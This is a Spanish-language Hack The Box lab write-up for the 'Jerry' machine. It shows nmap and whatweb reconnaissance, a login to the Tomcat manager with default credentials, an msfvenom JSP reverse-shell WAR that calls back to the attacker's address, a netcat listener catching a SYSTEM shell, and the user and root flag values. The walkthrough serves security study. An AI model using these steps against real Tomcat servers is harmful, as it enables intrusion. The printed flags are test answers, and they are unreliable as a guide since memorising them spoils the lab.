 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Ésta máquina es bastante facililla. Vamos a explotar un Tomcat aprovechandonos de un upload de la página, aunque primero necesitaremos credenciales válidas. Asá que vamos a ello."
date: 2021-09-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-Jerry/Jerry_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
    - linux
    - tomcat
    - file upload
    - web loger
    - revershell
---
```


![](/assets/images/htb-writeup-Jerry/Jerry_logo.png)

# Reconocimiento

Primero vamos a comenzar realizando, como siempre, un reconocimiento de puertos por el protocolo **TCP** , y el output lo redirigiremos al archivo `allPorts`.

```bash

h3g0c1v@kali:~/htb/jerry$ nmap --min-rate 5000 -p- --open -vvv -n -Pn -oG allPorts 10.10.10.95

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:43 CEST
Initiating SYN Stealth Scan at 20:43
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:44, 26.36s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 20:43:54 CEST for 26s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

Vemos que solo tiene un puerto abierto, que es el puerto 8080.

Pues vamos a detectar la versión y servicio que corren para ese puerto.

```bash

nmap -sC -sV -p8080 10.10.10.95
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:49 CEST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Muy bien, nos reporta un poco más de informacion. Aun asi, veamos que nos dice el **whatweb** .

```bash

h3g0c1v@kali:~/htb/jerry$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]

```
# Consiguiendo Acceso a la Máquina

Bien, veamos que contiene ese servidor Tomcat.

![](/assets/images/htb-writeup-Jerry/Tomcat_page.png)

Y nos aparece lo siguiente. Puedo probar a ver si tiene un **panel login** la pagina web. La ruta en la que normalmente está almacenado el panel login en Tomcat es `/manager/html`, asi que vamos a probar.

![](/assets/images/htb-writeup-Jerry/tomcat_page.png)

Vamos a probar con las credenciales típicas de **admin** , **admin**. ¡Y vemos las credenciales! ¡Por que sí! Que raro es esto, pero la hemos encontrado.

![](/assets/images/htb-writeup-Jerry/credentials.png)

Bueno pues nos **logeamos** con las credenciales y vemos lo siguiente.

![](/assets/images/htb-writeup-Jerry/dentro_tomcat.png)

Por abajo veo que hay un **upload** de archivos `.war` por lo que voy a intentar meter una revershell, para intentar ganar acceso al sistema.

Y para ello utilizaremos **msfvenom** , e utilizar la reveshell hecha en **java** llamada `java/jsp_shell_reverse_tcp`.

```bash

h3g0c1v@kali:~/htb/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > revershell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

```

Ahora metemos el archivo `.war` en la pagina web, para que se nos cree otro módulo.

![](/assets/images/htb-writeup-Jerry/revershell.png)

Y una vez metido el archivo en la máquina, nos ponemos en escucha por el puerto **443** , para ver si es vulnerable.

```bash

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>


```
# Visualizando las Flags

¡Y si! Es vulnerable. Hemos ganado acceso al sistema, incluso lo hemos hecho como `nt authority\system`.

```bash

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

En este punto ya hemos comprometido la máquina y podemos ver las flags de **user.txt** y **root.txt** .

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
